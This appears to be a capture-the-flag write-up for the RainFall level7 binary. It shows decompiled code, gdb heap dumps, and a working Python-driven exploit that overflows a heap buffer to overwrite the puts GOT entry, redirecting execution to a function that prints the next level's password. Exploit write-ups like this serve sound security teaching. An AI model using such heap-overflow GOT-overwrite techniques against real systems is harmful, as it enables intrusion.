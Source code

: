 ## Step 1: Static & Dynamic Analysis

```c
080484f4    int32_t m()
080484f4    {
080484f4        return printf("%s - %d\n", &c, time(nullptr));
080484f4    }

08048521    int32_t main(int32_t argc, char** argv, char** envp)
08048521    {
08048521        int32_t* ptr1 = malloc(8);
0804853e        *(uint32_t*)ptr1 = 1;
08048556        ptr1[1] = malloc(8);
08048560        int32_t* ptr2 = malloc(8);
0804856d        *(uint32_t*)ptr2 = 2;
08048585        ptr2[1] = malloc(8);
080485a0        strcpy(ptr1[1], argv[1]);
080485bd        strcpy(ptr2[1], argv[2]);
080485eb        fgets(&c, 0x44, fopen("/home/user/level8/.pass", u"r…"));
080485f7        puts("~~");
08048602        return 0;
08048521    }
```

### Explanation
Here, the binary allocates a first block of `8 bytes`.  
In the first half (size: `4 bytes`), it stores an integer value (`1`), and in the second half, it stores a pointer (size: `4 bytes`) to a second address space, provided by another malloc (`8 bytes`).  
In this second address space, the binary will use `strcpy()` to copy the `argv[1]` parameter without performing any checks for a potential `buffer overflow`.  
The binary performs the exact same operation a second time, but this time it stores `2` as the integer value and uses `strcpy()` on `argv[2]`.  

If we supply more than `8 bytes` as the first and second parameters, we will overwrite the data stored next to them.  

```asm
(gdb) disas main
   ...
   ...
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
   0x08048601 <+224>:   leave  
   0x08048602 <+225>:   ret  
```

```bash
(gdb) b*0x080485f7

(gdb) run "aaaaaaaa" "aaaaaaaa"

(gdb) info proc mappings
process 4420
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level7/level7
         0x8049000  0x804a000     0x1000        0x0 /home/user/level7/level7
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

```bash
(gdb) x/32wx 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x61616161      0x61616161
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x61616161      0x61616161
0x804a040:      0x00000061      0x00020fc1      0xfbad240c      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0xb7fd1980
(gdb)
```

At this point, we can observe that by overflowing our first parameter, we overwrite `0x0804a038`, which is the address pointing to the address space allocated by the last malloc.  
This address space is where `strcpy()` will write `argv[2]`.  

If we overwrite this pointer with the address of the `puts()` entry in the `GOT` and then provide the address of `m()` as the second parameter, the binary will jump to `m()` instead of calling `puts()`.  

```asm
int puts(const char *s);
0x08048400      jmp     dword [puts] ; 0x8049928
0x08048406      push    0x28       ; '(' ; 40
0x0804840b      jmp     section..plt
```

## Step 2: Exploiting the Binary

```bash
level7@RainFall:~$ ./level7 "$(python -c 'print(("A" * 20) + ("\x08\x04\x99\x28"[::-1]))')" "$(python -c 'print(("\x08\x04\x84\xf4"[::-1]))')"
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
level7@RainFall:~$
```